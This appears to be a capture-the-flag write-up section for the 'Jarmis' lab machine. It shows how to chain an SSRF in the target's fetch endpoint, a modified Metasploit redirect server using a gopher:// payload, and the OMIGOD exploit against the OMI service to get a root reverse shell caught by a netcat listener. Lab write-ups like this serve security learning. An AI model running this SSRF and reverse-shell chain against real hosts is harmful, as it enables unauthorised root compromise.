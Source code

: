 # Alternative way to exploit Jarmis

## Redirecting with Metasploit

Instead of creating firewall rules with `iptables` and starting several listeners manually, it is possible to use **Metasploit** to start a web server that automatically redirects.

Copying _http_basic.rb_ module to _http_forward.rb_:
```
cp /usr/share/metasploit-framework/modules/auxiliary/server/capture/http_basic.rb ~/.msf4/modules/auxiliary/server/capture/http_forward.rb
```

The modified code can be found in this repository in [jarmis_metasploit-http-forward.rb](jarmis/jarmis_metasploit-http-forward.rb).

Starting the web server with **Metasploit**:
```
msf6 > use auxiliary/server/capture/http_forward

msf6 auxiliary(server/capture/http_forward) > set SRVPORT 443
msf6 auxiliary(server/capture/http_forward) > set SRVHOST tun0
msf6 auxiliary(server/capture/http_forward) > set RedirectURL 'gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20(...)

msf6 auxiliary(server/capture/http_forward) > run
```

Starting the listener:
```
nc -lvnp 9001
```

Sending the request to the web server on the listener on port 443:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=https://10.10.14.3:443/mPqqNG1oZBWg' -H 'accept: application/json' | jq
```

After sending the request, it will be directly redirected to the OMI service with the **OMIGOD** payload and the listener on port 9001 starts a reverse shell as root!
